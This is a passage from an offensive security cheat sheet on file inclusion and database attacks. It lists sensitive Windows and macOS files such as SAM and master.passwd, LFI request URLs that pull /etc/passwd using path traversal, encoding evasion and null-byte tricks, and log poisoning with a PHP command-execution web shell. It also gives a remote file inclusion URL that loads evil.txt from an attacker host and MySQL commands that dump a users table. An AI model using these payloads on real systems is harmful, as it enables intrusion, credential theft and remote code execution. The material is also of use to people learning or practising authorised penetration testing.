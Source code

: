     -   LFI Windows Files:  
        %SYSTEMROOT%\\repair\\system  
        %SYSTEMROOT%\\repair\\SAM  
        %SYSTEMROOT%\\repair\\SAM  
        %WINDIR%\\win.ini  
        %SYSTEMDRIVE%\\boot.ini  
        %WINDIR%\\Panther\\sysprep.inf  
        %WINDIR%\\system32\\config\\AppEvent.Evt

    -   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    -   LFI - Download passwords file  
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

    -   LFI - Download passwords file with filter evasion  
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte  
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    -   Contaminating Log Files &lt;?php echo
        shell\_exec($\_GET\['cmd'\]);?&gt;

    -   For a Remote File Inclusion look for php code that is not
        sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files
        /etc/php5/cgi/php.ini - “allow\_url\_fopen” and
        “allow\_url\_include both set to “on”  
        include($\_REQUEST\["file"\].".php");

    -   Remote File Inclusion  
        [http://$ip/addguestbook.php?name=a&comment=b&LANG=http://$localip/evil.txt](http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt)  
        &lt;?php echo shell\_exec("ipconfig");?&gt;

-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   MySQL SQL

    -   Grab password hashes from a web application mysql database
        called “Users” - once you have the MySQL root username and
        password  
        mysql -u root -p -h $ip  
        use "Users"  
        show tables;  
        select \* from users;
